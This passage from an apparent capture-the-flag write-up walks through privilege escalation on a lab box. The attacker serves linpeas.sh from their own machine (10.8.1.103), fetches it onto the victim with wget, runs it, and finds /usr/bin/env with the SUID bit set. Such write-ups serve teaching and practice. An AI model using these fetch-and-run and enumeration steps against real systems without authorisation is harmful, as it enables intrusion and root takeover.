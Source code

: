We now have to escalate our privileges to `root` which will requires further enumeration.  To do this, we can use [linPEAS](https://github.com/carlospolop/PEASS-ng/releases/) which is part of the [Privilege Escalation Awesome Scripts Suite](https://github.com/carlospolop/PEASS-ng).  Firstly, we need to upload the `linpeas.sh` script to the victim machine - we can do this with Python.

```console
$ ls
linpeas.sh
$ sudo python3 -m http.server 80
```

Then on the victim machine, we can retrieve the file and then execute it:

```console
namelessone@anonymous:/tmp$ wget http://10.8.1.103:80/linpeas.sh
namelessone@anonymous:/tmp$ chmod +x linpeas.sh
namelessone@anonymous:/tmp$ ./linpeas.sh
```

From the output, we see that `/usr/bin/env` which displays the environment variables present within the system, has the SUID bit set.  SUID bits are permissions set for users and groups and when set, can allow certain files to be executed on behalf of those user's privileges.

![](/assets/posts/20220630/env_suid_bit.png)
